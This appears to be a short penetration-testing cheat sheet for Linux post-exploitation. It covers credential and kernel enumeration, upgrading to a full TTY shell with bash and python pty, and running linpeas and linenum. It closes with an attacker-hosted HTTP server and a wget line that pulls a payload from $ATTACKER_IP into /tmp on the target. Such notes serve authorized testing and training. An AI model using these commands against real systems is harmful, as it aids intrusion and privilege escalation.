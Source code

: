 # Linux Shell
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

## Enumeration:

Username:
Password:
Private key:
Kernel version:

Reliable directories for write permissions: 
- /tmp
- /dev/shm

----------------------------------------------------------------------------------------

## Get full TTY shell
	
1. Spawn bash shell

- bash

      /bin/bash -i

- python

      python3 -c 'import pty; pty.spawn("/bin/bash")'
	
2. Get full TTY shell 
		
        ctrl-z
        stty raw -echo
        fg
        enter
        enter
        export TERM=screen

----------------------------------------------------------------------------------------

## Automated Enumeration

Upload and run the following scripts for automated shell enumeration

1. linpeas.sh
2. linenum.sh
3. suggester.sh

Start http server on attacker machine

    python3 -m http.server 4444

Transfer files to target machine

    wget http://$ATTACKER_IP:4444 -O /tmp/<payload>
